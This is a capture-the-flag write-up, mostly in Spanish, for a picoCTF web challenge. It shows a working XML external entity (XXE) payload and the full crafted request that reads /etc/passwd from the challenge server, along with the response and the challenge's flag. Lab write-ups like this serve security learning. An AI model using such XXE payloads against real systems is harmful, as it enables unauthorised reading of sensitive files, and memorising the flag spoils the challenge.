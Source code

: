 ## Descripción 
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
[Web Portal](http://saturn.picoctf.net:62020/)

Hint:
1. XML external entity Injection
## Solución 1

Nos metemos a la página, abrimos la aplicación de Burpsuite y configuramos el proxy en settings, después configuramos el proxy en el navegador, activamos el proxy en intercept---intercept on y le damos a la página al botón de "blue", interceptamos la petición y mandamos la petición al repetidor y buscamos un payload xxe para comprobar vulnerabilidad

```
payload: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

REQUEST:
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
	<data>
		<ID>
			&xxe;
		</ID>
	</data>

RESPONSE:
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}

flag: picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
